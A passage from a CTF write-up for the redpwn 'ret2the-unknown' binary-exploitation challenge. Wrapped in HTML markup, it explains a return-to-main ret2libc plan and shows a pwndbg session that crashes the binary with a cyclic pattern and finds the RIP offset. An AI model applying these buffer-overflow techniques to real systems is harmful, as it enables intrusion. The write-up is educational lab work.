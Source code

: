 <span>Thus, to correctly calculate the libc base address, it is essential to overwrite RIP to point to</span> <span class="c9">main()</span><span class="c11"> so that the binary allows us to input a second payload (this time with the knowledge of the printf address). First, the offset of RIP must be calculated:</span>

<a id="t.7c5068acd7e6280e379a39b98c766f5e900f1ff6"></a><a id="t.5"></a>

<table class="c7">

<tbody>

<tr class="c22">

<td class="c0" colspan="1" rowspan="1">

<span class="c1">┌─[0xd4y@Writeup]─[</span><span class="c1 c56">~/business/ctf/redpwn/pwn/ret2the-unknown]                                                                                                                            
└──╼ $gdb ./ret2the-unknown -q  
pwndbg</span><span class="c1">: loaded 196 commands. Type pwndbg [filter] for a list.  
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)  
Reading symbols from ./ret2the-unknown...  
(No debugging symbols found in ./ret2the-unknown)  
pwndbg> r < <(cyclic 100)              
Starting program: /home/0xd4y/business/ctf/redpwn/pwn/ret2the-unknown/ret2the-unknown < <(cyclic 100)  
that board meeting was a *smashing* success! rob loved the challenge!                            
in fact, he loved it so much he sponsored me a business trip to this place called 'libc'...    
where is this place? can you help me get there safely?                                      
phew, good to know. shoot! i forgot!                                                            
rob said i'd need this to get there: 7ffff7e44cf0                                                
good luck!                                                                                      

Program received signal SIGSEGV, Segmentation fault.                                            
──────────────────────────────────────────[ DISASM ]──────────────────────────────────────────  
► 0x401237 <main+177>    ret    </span><span class="c1 c20"><0x6161616c6161616b></span><span class="c1">  

──────────────────────────────────────────[ STACK ]───────────────────────────────────────────  
00:0000│ rsp 0x7fffffffde38 ◂-- 'kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'  
01:0008│     0x7fffffffde40 ◂-- 'maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'  
02:0010│     0x7fffffffde48 ◂-- 'oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'  
03:0018│     0x7fffffffde50 ◂-- 'qaaaraaasaaataaauaaavaaawaaaxaaayaaa'  
04:0020│     0x7fffffffde58 ◂-- 'saaataaauaaavaaawaaaxaaayaaa'  
05:0028│     0x7fffffffde60 ◂-- 'uaaavaaawaaaxaaayaaa'  
06:0030│     0x7fffffffde68 ◂-- 'waaaxaaayaaa'  
07:0038│     0x7fffffffde70 ◂-- 0x61616179 /* 'yaaa' */  
────────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────────  
► f 0         0x401237 main+177  
  f 1 0x6161616c6161616b  
  f 2 0x6161616e6161616d  
  f 3 0x616161706161616f  
  f 4 0x6161617261616171  
  f 5 0x6161617461616173  
  f 6 0x6161617661616175  
  f 7 0x6161617861616177  
──────────────────────────────────────────────────────────────────────────────────────────────  
pwndbg> cyclic -l 0x6161616b  
40</span>
